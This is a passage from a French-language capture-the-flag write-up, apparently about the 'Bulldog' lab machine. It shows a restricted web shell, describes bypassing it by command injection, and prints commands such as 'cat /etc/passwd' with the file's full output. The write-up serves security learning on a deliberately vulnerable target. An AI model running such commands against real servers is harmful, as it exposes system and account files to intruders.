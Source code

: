 ![Affichage de l'image WEBSHELL-Welcome.png](images/WEBSHELL-Welcome.png)

```
Welcome to Web-Shell! The world's most secure webshell.
Web-Shell will prevent users from running dangerous shell commands.
It does this by limiting the specific commands that can be run.
A list of valid commands can be seen below.
All commands are run on the server itself, so it is very important to
update Web-Shell as soon as possible if a vulnerability is discovered.

ifconfig ls echo pwd cat rm
```

Miam, cela ressemble fortement à [de l'injection de commandes](https://www.owasp.org/index.php/Command_Injection), avec comme contrainte l'utilisation exclusive de programmes censés être inoffensifs, tels que _cat_ ou _ifconfig_. Après quelques essais, voici les données qui ont pu être exfiltrées malgré cette protection. 

```console
Command : pwd
/home/django/bulldog

Command : cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
```
